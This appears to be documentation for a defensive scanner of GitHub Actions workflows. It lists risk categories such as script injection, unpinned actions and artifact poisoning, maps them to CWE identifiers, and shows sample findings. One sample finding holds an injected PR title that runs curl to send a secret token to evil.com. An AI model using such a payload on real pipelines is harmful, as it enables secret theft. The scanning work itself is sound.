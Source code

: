 2. **Script Injection**
   - PR metadata (title, body, branch names) interpolated into shell scripts
   - github.event.* data used directly in `run:` scripts without sanitization
   - Attacker-controlled strings in bash commands
   - Severity: CRITICAL/HIGH

3. **Unpinned Actions with Secrets**
   - Mutable action versions (@main, @v1) that expose secrets
   - Third-party actions using floating tags with `secrets:` access
   - Supply chain takeover risk through action updates
   - Severity: HIGH

4. **Excessive Permissions**
   - Write permissions (`contents`, `packages`, `id-token`) in untrusted contexts
   - Overly permissive GITHUB_TOKEN in pull_request_target workflows
   - Permission escalation via workflow_dispatch
   - Severity: CRITICAL/HIGH

5. **External Workflow Risks**
   - Reusable workflows from external repos with `secrets: inherit`
   - Third-party workflows accessing organizational secrets
   - Information disclosure to external systems
   - Severity: HIGH/MEDIUM

6. **Artifact Poisoning**
   - Untrusted builds deployed without validation
   - Artifacts from pull_request_target uploaded and later deployed
   - Build artifacts from forked PRs used in production
   - Severity: CRITICAL

**Attack Patterns Covered:**

- **CWE-284**: Improper Access Control (untrusted checkout sequences)
- **CWE-829**: Untrusted Supply Chain (unpinned third-party actions)
- **CWE-77**: Command Injection (PR data in run scripts)
- **CWE-269**: Privilege Management (excessive workflow permissions)
- **CWE-200**: Information Exposure (secret leaks to external workflows)
- **CWE-494**: Integrity Check Missing (artifact poisoning chains)

**Example Output:**
```
GitHub Actions Security Analysis Complete:
  Total findings: 7
  Critical: 3
  High: 4
  Medium: 0
  Low: 0

Sample findings:

  [CRITICAL] Workflow 'CI' job 'test' step 'Checkout PR' checks out untrusted code in pull_request_target context
  File: .github/workflows/ci.yml
  Pattern: pull_request_target + early checkout
  Attack: Attacker opens PR with malicious code that executes with write permissions
  Remediation: Move checkout after validation, or use pull_request trigger instead

  [CRITICAL] Workflow 'CI' job 'test' step 'Run tests' uses untrusted data in run: script without sanitization
  File: .github/workflows/ci.yml
  Variables: github.event.pull_request.title, github.event.pull_request.body
  Attack Example: PR title "; curl http://evil.com/steal?token=$SECRET #" executes arbitrary commands
  Remediation: Pass untrusted data through environment variables, not direct interpolation

  [HIGH] Workflow 'Publish' uses unpinned action 'actions/checkout@main' with secrets access
  File: .github/workflows/publish.yml
```
